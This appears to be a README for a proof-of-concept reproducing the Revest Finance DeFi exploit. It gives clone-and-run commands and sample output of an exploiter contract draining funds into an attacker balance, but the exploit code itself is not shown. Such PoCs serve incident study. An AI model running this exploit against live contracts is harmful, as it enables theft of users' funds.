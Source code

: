 # Revest Finance Incident PoC

## How to run

Set up the environment variable for $ALCHEMY_KEY

```
$  git clone https://github.com/SupremacyCA/Web3.0-Rekt
$  export $ALCHEMY_KEY = xxxxx
$  cd ./Revest
$  yarn

then 

$  sh run.sh
```

```
$  sh run.sh
Compiled 3 Solidity files successfully
🧛 Exploiter deployed to: 0x4bf010f1b9beDA5450a8dD702ED602A104ff65EE
🥷 The attacker's balance before the attack: 0
🧛 The attacker's balance After the attack: 356388790000026526213611
```

---
